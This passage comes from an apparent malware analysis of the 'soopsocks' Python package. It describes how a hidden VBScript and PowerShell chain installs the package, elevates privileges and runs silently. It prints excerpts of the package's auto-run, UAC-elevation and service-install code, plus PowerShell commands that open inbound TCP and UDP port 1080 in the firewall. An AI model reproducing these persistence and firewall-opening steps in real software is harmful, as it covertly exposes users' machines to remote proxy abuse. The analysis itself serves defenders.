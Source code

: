 1. runs `python -m pip install soopsocks pywin32`  
2. Exits early if pip fails  
3. Runs `python -m soopsocks`

Finally the script launches `cmd.exe /c run_soopsocks.cmd` with the working directory set to the extracted Python folder and runs everything hidden**. The PowerShell will re-invoke itself with administrative privileges if not already elevated** (`Start-Process ... -Verb RunAs`), and the original VBScript invokes PowerShell with window style hidden (Wsh.Run uses `0`), so the entire operation is designed to execute silently.

Sidenote \- The python executable downloaded from the URL is a legitimate distribution, it is probably downloaded as a way to ensure that the code is executed correctly with the matching version it was developed for.

Running SoopSocks python package, as the PS run it, will run it in “auto” mode:

```py
from .cli import main
if __name__=='__main__':
    main()
```

Which activates the main without arguments, causing the main function to reach:

```py
args = p.parse_args(argv)
    if not args.cmd:
        if platform.system() == "Windows":
            return auto(args)
        p.print_help(); return
```

This runs the function `_elevate_and_rerun()` if not admin, or opening FW rules and installs as a service:

```py
if not _is_admin_windows():
	# Administrator privileges required. Attempting UAC elevation...
        print("관리자 권한이 필요합니다. UAC 상승을 시도합니다...")
        _elevate_and_rerun(["auto"])
        return

    ensure_firewall_rules(sys.executable)

    ok, detail = _try_pywin32_service()
    if ok:
	# Service installation and startup completed.
        print("서비스 설치 및 시작 완료.")
        return
    ok, msgs = _auto_task_fallback()
```

FW rules will allow all UDP and TCP communication via port 1080:

```shell
New-NetFirewallRule -DisplayName 'SoopSocks TCP 1080' -Direction Inbound -Action Allow -Protocol TCP -LocalPort 1080 -Program $e -Profile Any

New-NetFirewallRule -DisplayName 'SoopSocks UDP 1080' -Direction Inbound -Action Allow -Protocol UDP -LocalPort 1080 -Program $e -Profile Any
```
